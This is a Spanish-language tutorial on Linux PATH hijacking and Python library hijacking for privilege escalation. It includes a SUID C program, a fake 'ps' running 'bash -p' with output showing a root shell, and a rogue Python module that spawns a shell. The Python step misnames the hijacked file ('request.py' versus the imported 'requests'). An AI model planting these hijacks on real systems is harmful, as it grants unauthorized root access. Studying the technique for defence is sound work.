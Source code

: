 **¿Que es el PATH Hijacking?**
Empezemos con el PATH es una variable de entorno el cual tiene rutas del sistema, esto para que es?
Esto nos ayuda a identificar los comando, es decir que si nosotros colocamos `nmap` en un CLI buscara este binario en las rutas que tiene establecidas en el PATH.

``` bash
❯ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/s4tisfacti0n/.fzf/bin
```

Aunque solo se hace uso del PATH cuando se ejecutan rutas relativas.

``` bash
❯ whoami
s4tisfacti0n

❯ /bin/whoami
s4tisfacti0n
```

En el primer comando se utiliza el PATH para buscar el binario, pero en el segundo no hace falta ya que referenciamos la ubicacion exacta de donde se encuentra este, *por lo tando asi podemos evitar ataques como path hijacking*.

Ahora este ataque consiste en modificar el PATH para apuntar a otro archivo de formar que no responda el binario legitimo.

En este caso explotaremos de un script con permisos SUID, empezaremos con un pequeño script en C que muestre los procesos que se esten ejecutando, esto lo podemo ver con la utilidad de *ps*.

``` c
#include <stdio.h>

void main(){
	//Para indicar que este script en c es SUID tenemos que indicar setiuid(0) + el chmod +s
	//Es como una doble verificacion
	setuid(0);

	printf("\n\n[*] Listando procesos con (/urs/bin/ps):\n\n");
	system("/usr/bin/ps");

	printf("\n\n[*] Listando procesos con (ps):\n\n");
	system("ps");
}
```

Este script se tiene que exportar en binario para poder ejecutarse

	gcc process.c -o process

Ahora la intencion es crear un archivo *ps* en la ruta actual y modificar el PATH para *indicar la ruta de nuestro archivo ps*.
Añadimos la ruta actual al PATH

``` bash
❯ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/s4tisfacti0n/.fzf/bin

❯ export PATH=.:$PATH

❯ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/s4tisfacti0n/.fzf/bin
```

Creamos el archivo *ps*
``` bash
❯ echo 'bash -p' > ps

❯ chmod +x ps
```

y ejecutamos el `process` desde un usuario no privilegiado
``` bash
❯ ./process


[*] Listando procesos con (/urs/bin/ps):

    PID TTY          TIME CMD
  10801 pts/1    00:00:10 zsh
 103431 pts/1    00:00:00 process
 103432 pts/1    00:00:00 sh
 103433 pts/1    00:00:00 ps


[*] Listando procesos con (ps):

bash-5.2# whoami
root
bash-5.2# 
```

*Nota:* Los cambios en PATH son temporales es decir que se eliminan al terminar la sesion.

**¿Que es el Library Hijacking?**
Esto viene siendo la misma dinamica que el PATH Hijacking pero apuntado a las librerias, supongamos que tenemos un script en python que realiza una peticion *GET* a una pagina y nos devuelve un *codigo de respuesta*.

``` python
#!/usr/bin/python3

import requests

response = requests.get('https://github.com')
print(response)

#Output
<Response [200]>
```

Para vizualizar el PATH que sigue python lo podemos hacer con *sys*

``` bash
❯ python3 -c "import sys ; print(sys.path)"
['', '/usr/lib/python310.zip', '/usr/lib/python3.10', '/usr/lib/python3.10/lib-dynload', '/home/s4tisfacti0n/.local/lib/python3.10/site-packages', '/usr/local/lib/python3.10/dist-packages', '/usr/lib/python3/dist-packages']
```
Como podemos ver la primera ruta en buscar es ' ', es decir la ruta actual.
Por lo tanto creamos un archivo `request.py` en la ruta actual.

``` python
#!/usr/bin/python3

import os
os.system('bash -p')
```

Ahora si bien no podemos asignarle permisos [SUID a python](https://stackoverflow.com/questions/25001206/suid-doesnt-work-in-bash), pero podemos abusar de un *sudo*.




